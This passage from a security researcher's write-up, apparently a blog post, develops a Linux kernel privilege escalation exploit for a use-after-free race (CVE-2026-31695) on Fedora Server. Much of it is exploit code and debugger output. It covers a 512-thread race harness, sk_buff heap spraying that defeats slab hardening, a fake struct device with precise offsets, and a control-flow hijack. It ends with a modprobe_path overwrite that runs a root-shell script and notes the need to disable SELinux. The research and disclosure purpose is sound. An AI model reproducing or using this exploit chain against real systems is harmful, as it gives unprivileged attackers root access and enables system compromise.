```diff
--- a/net/core/net-sysfs.c
+++ b/net/core/net-sysfs.c
@@ -2250,6 +2250,12 @@ static void netdev_release(struct device *d)
 	 */
 	kfree(rcu_access_pointer(dev->ifalias));
 	kvfree(dev);
+
+	/* UAF write to reg_state to detect UAF read in pm */
+	dev->reg_state = 7;
+
+	printk("[k pid %d CPU %d] netdev_release kfree 0x%lx reg_state %d\n",
+               current->pid, smp_processor_id(), (unsigned long)dev, dev->reg_state);
 }
```

 - And use `BUG_ON()` to detect the freed device right before `pm_runtime_get_sync()` performs the UAF:

```diff
--- a/net/ethtool/netlink.c
+++ b/net/ethtool/netlink.c
@@ -94,8 +94,15 @@ int ethnl_ops_begin(struct net_device *dev)
 	if (!dev)
 		return -ENODEV;
 
-	if (dev->dev.parent)
+	if (dev->dev.parent) {
+		printk("[k pid %d CPU %d] ethnl_ops_begin dev 0x%lx state %d, parent 0x%lx state %d\n",
+			current->pid, smp_processor_id(),
+			(unsigned long)dev, dev->reg_state,
+			(unsigned long)(to_net_dev(dev->dev.parent)),
+			(to_net_dev(dev->dev.parent))->reg_state);
+		BUG_ON((to_net_dev(dev->dev.parent))->reg_state == 7);
 		pm_runtime_get_sync(dev->dev.parent);
+	}
 
 	netdev_ops_assert_locked(dev);
```

To my regret, after multiple attempts to synchronize the racing threads using `thread_sync()`, I discovered that my PoC exploit is not able to hit this `BUG_ON()` without such a synthetic delay in `ethnl_set_features()`:

```diff
--- a/net/ethtool/features.c
+++ b/net/ethtool/features.c
@@ -235,6 +235,7 @@ int ethnl_set_features(struct sk_buff *skb, struct genl_info *info)
                return ret;
        dev = req_info.dev;
 
+       mdelay(10);
        rtnl_lock();
        netdev_lock_ops(dev);
        ret = ethnl_ops_begin(dev);
```

So I started to brainstorm how to make thread #1 (`ETHTOOL_MSG_FEATURES_SET`) slow down and expand the race window. My first thought was to employ a beautiful trick described in Jann Horn's article [Racing against the clock](https://googleprojectzero.blogspot.com/2022/03/racing-against-clock-hitting-tiny.html). I had successfully used it in my research [Kernel-hack-drill and a new approach to exploiting CVE-2024-50264 in the Linux kernel](https://a13xp0p0v.tech/2025/09/02/kernel-hack-drill-and-CVE-2024-50264.html).

The main idea was to hammer the `ETHTOOL_MSG_FEATURES_SET` thread with a `timerfd` watched by a huge pile of `epoll` instances. Here is the short recipe (see [Jann's article](https://googleprojectzero.blogspot.com/2022/03/racing-against-clock-hitting-tiny.html) for full details):
1. Call `timerfd_create(CLOCK_MONOTONIC, 0)`.
2. Create 8 forks.
3. In each fork, call `dup()` for the `timerfd` 100 times.
4. In each fork, call `epoll_create()` 500 times.
5. For every `epoll` instance, use `epoll_ctl()` to add all duplicated file descriptors to the interest list -- each `epoll` instance now monitors all available `timerfd` copies.
6. Finally, arm the `timerfd` so the interrupt hits my racing thread at just the right moment:
 ```c
timerfd_settime(timerfd, TFD_TIMER_CANCEL_ON_SET, &retard_tmo, NULL)
 ```

Unfortunately, this approach failed, and I still didn't manage to hit `BUG_ON()` 😓. I suppose that happened because of the very unstable timing of thread #0 performing `netdev_run_todo()` during `RTM_DELLINK` handling.

Then I looked closely at the code in [`ethnl_set_features()`](https://elixir.bootlin.com/linux/v6.19.11/source/net/ethtool/features.c#L212), which participates in the race condition:

```c
	ret = ethnl_parse_header_dev_get(&req_info,
					 tb[ETHTOOL_A_FEATURES_HEADER],
					 genl_info_net(info), info->extack,
					 true);
	if (ret < 0)
		return ret;
	dev = req_info.dev;

	rtnl_lock();
	netdev_lock_ops(dev);
	ret = ethnl_ops_begin(dev);
	if (ret < 0)
		goto out_unlock;
	ethnl_features_to_bitmap(old_active, dev->features);
```

I got the idea:

> I can achieve the effect of my synthetic `mdelay(10)` before `rtnl_lock()` in thread #1 by locking `rtnl_mutex` in some other competing thread!

Indeed, in that case, `ethnl_set_features()` would wait on `rtnl_lock()` and my PoC exploit would have enough time to reallocate the freed `struct device`.

I've spent some time searching for what an unprivileged attacker could do in the userspace to lock `rtnl_mutex` for a relatively long time. Some friends, who are experts in the netlink kernel subsystem, recommended that I look at the [netlink dump operation](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=1c2d670f3660e9103fdcdca702f6dbf8ea7d6afb).

But then I got an insight:

> What if I create **a lot of threads** performing `ETHTOOL_MSG_FEATURES_SET` (for example, 512)? Each of them would call `rtnl_lock()` in `ethnl_set_features()`, so there would definitely be some unfortunate "loser" thread that would get the `rtnl_mutex` late and then work with my reallocated fake `struct device`!

<center></center><br>

Excellent! With this trick, my PoC exploit for CVE-2026-31695 hit UAF with 100% stability and had enough time for heap spraying, despite the elusive race condition:

```c
#define TH_ETHTOOL_N 512
#define SPRAY_DELAY_MSEC_MAX 15

int race(long race_n)
{
	int ret = -1;
	long i = 0;
	pthread_t th_dellink;
	pthread_t th_ethtool[TH_ETHTOOL_N];
	pthread_t th_spray;
	unsigned long spray_delay_nsec = (race_n % SPRAY_DELAY_MSEC_MAX) * 1000000;

	ret = pthread_barrier_init(&th_f_barrier, NULL, TH_ETHTOOL_N + 2);
                                                        /* + th_dellink and th_spray */
	if (ret != 0) {
		perror("[-] pthread_barrier_init");
		return EXIT_FAILURE;
	}

	ret = pthread_create(&th_dellink, NULL, th_dellink_f, NULL);
	if (ret != 0) {
		perror("[-] pthread_create");
		return EXIT_FAILURE;
	}

	for (i = 0; i < TH_ETHTOOL_N; i++) {
		ret = pthread_create(&th_ethtool[i], NULL, th_ethtool_f, NULL);
		if (ret != 0) {
			perror("[-] pthread_create");
			return EXIT_FAILURE;
		}
	}

	ret = pthread_create(&th_spray, NULL, th_spray_f, (void *)spray_delay_nsec);
	if (ret != 0) {
		perror("[-] pthread_create");
		return EXIT_FAILURE;
	}
```

<center></center><br>

## C'mon, do something dangerous!

When I solved the race condition stability problem, I started to investigate dangerous effects that my PoC exploit can achieve in the `pm_runtime_get_sync()` function with my fake `struct device`.

As I mentioned earlier, for my research, I chose Fedora 44 Server for the `x86_64` architecture running the Linux kernel `6.19.10-300.fc44`. The debugger showed that:

 1. The size of `struct device` is 760 bytes.

 2. It resides inside `struct net_device` at the offset of 1456 bytes.

 3. `struct net_device` lives in the `kmalloc-cg-4k` slab cache.

I stepped through the whole [`pm_runtime_get_sync(struct device *dev)`](https://elixir.bootlin.com/linux/v6.19.11/source/include/linux/pm_runtime.h#L497) using gdb -- it turned out to be a large and complicated function. Deep inside, I found an opportunity to perform control flow hijacking:

```c
pm_runtime_get_sync()
    __pm_runtime_resume()
        rpm_resume()
            callback = RPM_GET_CALLBACK(dev, runtime_resume)
            rpm_callback(callback, dev)
```

So I needed to construct a fake `struct device` filled with special data that allows it to pass all checks and conditions in the `pm_runtime_get_sync()` kernel function and reach the `rpm_callback()` call.

But before that, I had to create a heap spraying method that was able to bypass the exploit mitigations in the kernel slab allocator, since Fedora Server has `CONFIG_RANDOM_KMALLOC_CACHES` and `CONFIG_SLAB_BUCKETS` enabled.

## Defeating slab allocator hardening by doing nothing at all

For this section, I reused a part of the title from a nice [article](https://projectzero.google/2025/11/defeating-kaslr-by-doing-nothing-at-all.html) by Seth Jenkins. But in my case, I defeated `CONFIG_RANDOM_KMALLOC_CACHES` and `CONFIG_SLAB_BUCKETS`.

When `CONFIG_RANDOM_KMALLOC_CACHES` is enabled, the kernel creates multiple copies of slab caches for normal `kmalloc()` allocation and makes `kmalloc()` randomly pick one based on the code address. That restricts the ability to perform heap spraying and reallocate the freed object with one of another type.

`struct net_device` lives in the `kmalloc-cg-4k` slab cache. To reallocate it with controlled data, I was going to perform the cross-cache attack (which I practiced a lot in my [kernel-hack-drill](https://github.com/a13xp0p0v/kernel-hack-drill) pet project). Imagine my surprise to see the following output:

```
$ sudo grep kmalloc /proc/slabinfo | grep 4k
kmalloc-cg-4k        641    808   4096    8    8 : tunables    0    0    0 : slabdata    101    101      0
dma-kmalloc-4k         0      0   4096    8    8 : tunables    0    0    0 : slabdata      0      0      0
kmalloc-rcl-4k         0      0   4096    8    8 : tunables    0    0    0 : slabdata      0      0      0
kmalloc-rnd-15-4k     60     64   4096    8    8 : tunables    0    0    0 : slabdata      8      8      0
kmalloc-rnd-14-4k     28     32   4096    8    8 : tunables    0    0    0 : slabdata      4      4      0
kmalloc-rnd-13-4k     48     48   4096    8    8 : tunables    0    0    0 : slabdata      6      6      0
kmalloc-rnd-12-4k    144    176   4096    8    8 : tunables    0    0    0 : slabdata     22     22      0
kmalloc-rnd-11-4k     76     80   4096    8    8 : tunables    0    0    0 : slabdata     10     10      0
...
```

I saw that Linux with `CONFIG_RANDOM_KMALLOC_CACHES=y` created `kmalloc-rnd-*-4k` slab caches, but `kmalloc-cg-4k` is a single cache and not affected by this security hardening feature! I double-checked that using the debugger:

```
[  245.811734] [k pid 1017 CPU 3] ethnl_ops_begin parent dev 0xffff8881018a4000 state 7

gef> slab-contains 0xffff8881018a4000
slab: 0xffffea0004062800
kmem_cache: 0xffff888100057700
base: 0xffff8881018a0000
name: kmalloc-cg-4k  size: 0x1000  num_pages: 0x8
```

So I could simply spray some objects with the controlled data directly into the `kmalloc-cg-4k` slab cache. My first thought was to exploit `msg_msg`. I like this object: I first used it for heap spraying in 2021 (you can find the details in the article ["Four Bytes of Power: Exploiting CVE-2021-26708 in the Linux kernel"](https://a13xp0p0v.tech/2021/02/09/CVE-2021-26708.html)).

However, `CONFIG_SLAB_BUCKETS` killed this opportunity. With `CONFIG_SLAB_BUCKETS=y`, the Linux kernel creates a bunch of separate slab caches for `msg_msg` objects:

```
$ sudo grep msg /proc/slabinfo
msg_msg-8k             0      0   8192    4    8 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-4k             0      0   4096    8    8 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-2k             0      0   2048   16    8 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-1k             0      0   1024   32    8 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-512            0      0    512   32    4 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-256            0      0    256   32    2 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-128            0      0    128   32    1 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-64             0      0     64   64    1 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-32             0      0     32  128    1 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-16             0      0     16  256    1 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-8              0      0      8  512    1 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-192            0      0    192   21    1 : tunables    0    0    0 : slabdata      0      0      0
msg_msg-96             0      0     96   42    1 : tunables    0    0    0 : slabdata      0      0      0
```

So I started to search for kernel objects that live in the `kmalloc-cg` slab caches and soon found out that `sk_buff.data` is what I needed. It is allocated in the [`__alloc_skb()`](https://elixir.bootlin.com/linux/v6.19.11/source/net/core/skbuff.c#L631) kernel function. Moreover, `sk_buff.data` is not affected by `CONFIG_SLAB_BUCKETS=y`.

So, technically, I found a way to defeat the `CONFIG_RANDOM_KMALLOC_CACHES` and `CONFIG_SLAB_BUCKETS` exploit mitigations by doing nothing at all.

<center></center><br>

Let's look at my heap spraying in detail:

 - To allocate network buffer data in `kmalloc-cg-4k`, I chose the size 3737:

```c
#define SKB_DATA_SZ 3737
#define SPRAY_SKBS 42
```

 - As I mentioned in **Obstacle #️⃣3️⃣**, UAF happens **earlier** than thread #0 finishes sending the `RTM_DELLINK` routing message. Therefore, unfortunately, it was impossible to perform heap spraying in thread #0 on CPU 0 just after sending `RTM_DELLINK`, which freed `veth1`. So I created a separate thread for heap spraying in `race()` (described above) and gave it `(race_n % SPRAY_DELAY_MSEC_MAX) * 1000000` as an argument to try different delays:

```c
void *th_spray_f(void *arg)
{
	int ret = EXIT_FAILURE;
	int s[2] = { 0 };
	char *spray_data = NULL;
	long i = 0;
	ssize_t bytes = -1;
	unsigned long spray_delay_nsec = (unsigned long)arg;
```

 - I pin the heap spraying thread to CPU 0, where `netdev_run_todo()` called `kfree()` for `veth1` during `RTM_DELLINK` handling:

```c
	ret = do_cpu_pinning(0);
	if (ret != EXIT_SUCCESS)
		return NULL;
```

 - Then I create a socket pair:

```c
	ret = socketpair(AF_UNIX, SOCK_DGRAM, 0, s);
	if (ret != 0) {
		perror("[-] socketpair");
		return NULL;
	}
```

 - Now I prepare data for my fake `struct device`:

```c
	spray_data = mmap(NULL, SPRAY_MMAP_SIZE, PROT_READ | PROT_WRITE,
					MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	if (spray_data == MAP_FAILED) {
		perror("[-] mmap");
		goto out;
	}

	memset(spray_data, 0, SPRAY_MMAP_SIZE);

	ret = setup_fake_netdevice(spray_data);
	if (ret != EXIT_SUCCESS)
		goto out;
```

 - Then in `thread_sync()`, I synchronize this thread with others using `pthread_barrier_wait()` and wait for the required delay in a busy loop:

```c
	ret = thread_sync(spray_delay_nsec);
	if (ret != EXIT_SUCCESS)
		goto out;
```

 - Finally, I use the `send()` syscall to create `sk_buff` objects with my heap spray data in kernelspace:

```c
	for (i = 0; i < SPRAY_SKBS; i++) {
		bytes = send(s[0], spray_data, SKB_DATA_SZ, 0);
		if (bytes != SKB_DATA_SZ) {
			perror("[-] sendto");
			goto out;
		}
	}
```

## Crafting a fake struct device

Before designing a fake `struct device`, I determined the offset of my payload inside the kernel allocation. In order to do that, I initialized the buffer for the `send()` syscall the following way:

```c
	for (i = 0; i < 0xff; i++) {
		spray_data[i] = i; /* find out the payload offset in skb->data */
	}
```

Then I set a breakpoint in `unix_dgram_sendmsg()` and checked the contents of `sk_buff.data` using the debugger:

```
gef> x/100xg skb->data
0xffff8881147d8000:	0x0706050403020100	0x0f0e0d0c0b0a0908
0xffff8881147d8010:	0x1716151413121110	0x1f1e1d1c1b1a1918
0xffff8881147d8020:	0x2726252423222120	0x2f2e2d2c2b2a2928
0xffff8881147d8030:	0x3736353433323130	0x3f3e3d3c3b3a3938
0xffff8881147d8040:	0x4746454443424140	0x4f4e4d4c4b4a4948
...
```

It showed that the incremented values started from the beginning of `skb->data`; there was no offset. Therefore, the `send()` system call is a very convenient primitive for preparing the heap spraying payload.

Then I started to craft a fake `struct device` that allowed me to reach the control flow hijack in the [`rpm_resume()`](https://elixir.bootlin.com/linux/v6.19.11/source/drivers/base/power/runtime.c#L769) function called by `pm_runtime_get_sync()`. It turned out to be exhausting because of the quite complicated logic in `rpm_resume()`.

To experiment with basic control flow hijacking, I had to disable the SMEP and SMAP security hardening features on the virtual machine. To prepare the heap spraying payload, I implemented the following procedure:

 - Filled the data for `struct device` with zeros.

 - Set `device.power.runtime_status` to 2, which is `RPM_SUSPENDED`:

```c
int setup_fake_netdevice(char *buf)
{
	int *int_val = NULL;
	unsigned long *long_val = NULL;
	char *fake_pm_domain = NULL;

	int_val = (int *)(buf + OFFSET__NET_DEVICE__RUNTIME_STATUS);
	*int_val = 0x2; /* RPM_SUSPENDED */
```

 - Created a fake `struct dev_pm_domain` pointed to by `device.pm_domain`. I simply did that in userspace to try the approach. It could work well without SMEP and SMAP:

```c
	fake_pm_domain = mmap(NULL, SPRAY_MMAP_SIZE, PROT_READ | PROT_WRITE,
					MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	if (fake_pm_domain == MAP_FAILED) {
		perror("[-] mmap fake_pm_domain");
		return EXIT_FAILURE;
	}

	memset(fake_pm_domain, 0, SPRAY_MMAP_SIZE);

	long_val = (unsigned long *)(buf + OFFSET__NET_DEVICE__PM_DOMAIN);
	*long_val = (unsigned long)fake_pm_domain; /* for future control flow hijack */
```

 - Finally, I wrote the magic value `0x4141414142424242` to `dev_pm_domain.dev_pm_ops.runtime_resume`, which should store the function pointer `int (*runtime_resume)(struct device *)`:

```c
	long_val = (unsigned long *)(fake_pm_domain + OFFSET__DEV_PM_DOMAIN__RUNTIME_RESUME);
	*long_val = (unsigned long)0x4141414142424242lu;
```

This basic payload for creating a fake `struct device` can be described by the following diagram:

<center></center><br>

Debugging and calculating the right offsets in these multiple nested structures were a chore 😜:

```c
/*
 * Offsets extracted using gdb
 */
#define OFFSET__NET_DEVICE__DEV 1456

#define OFFSET__DEVICE__POWER 216
#define OFFSET__DEV_PM_INFO__RUNTIME_STATUS 236
#define OFFSET__NET_DEVICE__RUNTIME_STATUS \
	(OFFSET__NET_DEVICE__DEV + OFFSET__DEVICE__POWER + OFFSET__DEV_PM_INFO__RUNTIME_STATUS)

#define OFFSET__DEVICE__PM_DOMAIN 536
#define OFFSET__NET_DEVICE__PM_DOMAIN (OFFSET__NET_DEVICE__DEV + OFFSET__DEVICE__PM_DOMAIN)

#define OFFSET__DEV_PM_DOMAIN__OPS 0
#define OFFSET__DEV_PM_OPS__RUNTIME_RESUME 168
#define OFFSET__DEV_PM_DOMAIN__RUNTIME_RESUME \
	(OFFSET__DEV_PM_DOMAIN__OPS + OFFSET__DEV_PM_OPS__RUNTIME_RESUME)
```

But looking at the kernel crash containing `0x4141414142424242` was joyful 😊. I achieved a basic control flow hijack on the Fedora Server kernel:

```
[!] let's go racing!
[   37.213592] Oops: general protection fault, kernel NULL pointer dereference 0x0: 0000 [#1] SMP NOPTI
[   37.214684] CPU: 1 UID: 1000 PID: 128840 Comm: pm Not tainted 6.19.10-300.fc44.x86_64 #1 PREEMPT(lazy) 
[   37.215775] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.17.0-10.fc44 06/10/2025
[   37.216827] RIP: 0010:__pi___x86_indirect_thunk_r13+0xa/0x20
...
[   37.219661] RSP: 0018:ffffc9000469f6f8 EFLAGS: 00010206
[   37.220313] RAX: 0000000000000000 RBX: ffff888105fd55b0 RCX: 0000000000000017
[   37.221138] RDX: 0000000000000000 RSI: ffff888105fd55b0 RDI: ffff888105fd55b0
[   37.222060] RBP: 4141414142424242 R08: ffffffff84c03040 R09: 00000000bcca622b
[   37.222985] R10: 0000000000000004 R11: 0000000000000001 R12: ffff888105fd5694
[   37.223855] R13: 4141414142424242 R14: 0000000000000000 R15: 0000000000000000
[   37.224715] FS:  00007fbc30aea6c0(0000) GS:ffff8881b73e6000(0000) knlGS:0000000000000000
[   37.225683] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   37.226388] CR2: 0000000000489610 CR3: 0000000117acf000 CR4: 00000000000006f0
[   37.227227] Call Trace:
[   37.227526]  <TASK>
[   37.227790]  ? __rpm_callback+0x57/0x210
```

# Wake up, Neo (an unexpected trouble)

The `int (*runtime_resume)(struct device *)` callback provides a nice control flow hijacking primitive: the only function argument is the pointer to `struct device`, which contains the address of my heap spraying payload. Excellent!

However, I encountered an unexpected trouble when I implemented a basic ret2usr attack performing privilege escalation via `commit_creds(prepare_kernel_cred(INIT_TASK_PTR))`. After executing the `runtime_resume()` callback, the kernel proceeds with execution of the system call and hits a null pointer dereference later in `rpm_resume()` 🤦‍♂️:

```
[   19.170510] BUG: kernel NULL pointer dereference, address: 0000000000000000
[   19.171610] #PF: supervisor read access in kernel mode
[   19.172395] #PF: error_code(0x0000) - not-present page
[   19.173185] PGD 11033d067 P4D 11033d067 PUD 117ef7067 PMD 0 
[   19.174066] Oops: Oops: 0000 [#1] SMP NOPTI
[   19.174705] CPU: 1 UID: 1000 PID: 6966 Comm: pm Not tainted 6.19.10-300.fc44.x86_64 #1 PREEMPT(lazy) 
[   19.176104] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.17.0-10.fc44 06/10/2025
[   19.177543] RIP: 0010:__wake_up_common+0x49/0xd0
...
[   19.192334] Call Trace:
[   19.192697]  <TASK>
[   19.193037]  __wake_up+0x36/0x60
[   19.193562]  rpm_resume+0x442/0x760
[   19.194179]  ? __mutex_lock.constprop.0+0x158/0xa30
[   19.195015]  __pm_runtime_resume+0x52/0x90
[   19.195718]  ethnl_ops_begin+0x30/0x100
[   19.196371]  ethnl_set_features+0xde/0x2f0
```

It turned out that after executing `rpm_callback()`, the `rpm_resume()` function tries to [wake up](https://elixir.bootlin.com/linux/v6.19.11/source/drivers/base/power/runtime.c#L951) threads in `device.power.wait_queue`. So I started to ponder how to get out of this kernel crash. I saw three options:

 1. Sleep forever in this kernel thread after overwriting `modprobe_path`. That would be a dirty solution. Moreover, it would break the netlink kernel subsystem, since `rpm_resume()` works with the locked `rtnl_mutex` and some other synchronization primitives.

 2. Forcefully finish the system call and jump to userspace. This approach would also have problems with synchronization primitives in the netlink subsystem of the Linux kernel. Moreover, jumping to userspace would require some tricky code in assembly language. This solution looked possible but not very clean as well.

 3. Modify my fake `struct device` to somehow survive `wake_up_all(&dev->power.wait_queue)`. That approach is prettier, so I decided to try it and use the second one as a fallback plan in case of failure.

`wake_up_all()` calls the [`__wake_up_common()`](https://elixir.bootlin.com/linux/v6.19.11/source/kernel/sched/wait.c#L92) core function, which starts with the following code:

```c
static int __wake_up_common(struct wait_queue_head *wq_head, unsigned int mode,
			int nr_exclusive, int wake_flags, void *key)
{
	wait_queue_entry_t *curr, *next;

	lockdep_assert_held(&wq_head->lock);

	curr = list_first_entry(&wq_head->head, wait_queue_entry_t, entry);

	if (&curr->entry == &wq_head->head)
		return nr_exclusive; /* <-- THIS IS MY CHANCE! */

	list_for_each_entry_safe_from(curr, next, &wq_head->head, entry) {
```

The first `return` statement was my chance to escape the linked list traversal and avoid the kernel crash. To force the Linux kernel to execute it, I needed to fake an empty linked list in `device.power.wait_queue`. In other words, I needed to make `wq_head->head` contain the pointer to itself!

But how could I achieve that without knowing the kernel address of `device.power.wait_queue.head`? I failed to find the answer and started to design an immediate return to userspace right after the control flow hijack. However, the next day I suddenly had an insight:

> During the control flow hijack, when the Linux kernel executes the `runtime_resume(struct device *)` callback, I have the address of my fake `struct device` in the RDI register as the first function argument. Therefore, I can calculate the kernel address of `device.power.wait_queue` and update the payload to fake an empty linked list!

That was a cool idea that allowed me to avoid the subsequent kernel crash in `rpm_resume()`. The following diagram describes the fake `struct device` after control flow hijacking:

<center></center><br>

The last hint, which I needed to finish `pm_runtime_get_sync()` gracefully, was to return `-EINVAL` from my callback 🚘🏁.

## Fighting modprobe_path in Fedora Server

After I achieved a full-fledged control flow hijack, I changed `commit_creds(prepare_kernel_cred(INIT_TASK_PTR))` to overwriting `modprobe_path` similarly to my [`drill_oob_w_pipe_buffer`](https://github.com/a13xp0p0v/kernel-hack-drill/blob/master/drill_oob_w_pipe_buffer.c) PoC exploit in the [`kernel-hack-drill`](https://github.com/a13xp0p0v/kernel-hack-drill) project (you can read about it in the article ["Kernel-hack-drill and a new approach to exploiting CVE-2024-50264 in the Linux kernel"](https://a13xp0p0v.tech/2025/09/02/kernel-hack-drill-and-CVE-2024-50264.html)).

I had two reasons to do that:
 - I didn't know which of the 512 racing threads won the race and executed the payload.
 - My exploit process worked inside the Linux namespaces, and I didn't want to bother with escaping them.

Overwriting `modprobe_path` and then triggering `modprobe` seemed a good solution.

I created an anonymous file using the `memfd_create()` syscall and wrote a simple script into it for running a root shell:

```c
	shell_stdin_fd = dup(STDIN_FILENO);
	if (shell_stdin_fd < 0) {
		perror("[-] dup");
		return EXIT_FAILURE;
	}

	shell_stdout_fd = dup(STDOUT_FILENO);
	if (shell_stdout_fd < 0) {
		perror("[-] dup");
		return EXIT_FAILURE;
	}

	ret = dprintf(script_fd,
		      "#!/bin/sh\n"
		      "/bin/sh 0</proc/%u/fd/%u 1>/proc/%u/fd/%u 2>&1\n",
		      pid, shell_stdin_fd, pid, shell_stdout_fd);
	if (ret < 0) {
		perror("[-] dprintf for privesc_script");
		return EXIT_FAILURE;
	}
```

However, when I changed `modprobe_path` to the path of this script and triggered `modprobe` using an `AF_ALG` socket, the privilege escalation failed. I spent an evening stepping through the kernel code and debugging that problem carefully. And I was really amazed when I found out that such a privilege escalation fails on Fedora Server but works well on Debian!

I also tried overwriting `/proc/sys/kernel/core_pattern` to call a privilege escalation script. Same effect: works on Debian and fails on Fedora Server 😵‍💫.

As a last resort, I checked the system logs and discovered the following suspicious message:

```
setroubleshoot[50400]: SELinux is preventing kworker/u8:3 from read access on the lnk_file 3.
```

I tried disabling SELinux, and my privilege escalation script suddenly worked! It turned out that the Linux kernel checks the SELinux labels of the executable before running it for module autoloading or creating a core dump.

<center></center><br>

I tried to adapt the SELinux labels of my privilege escalation script, but it was not allowed for an unprivileged user. So I concluded that I should disable SELinux during control flow hijacking in addition to overwriting `modprobe_path` 💡.

## Improving a well-known Prefetch Side-Channel Attack

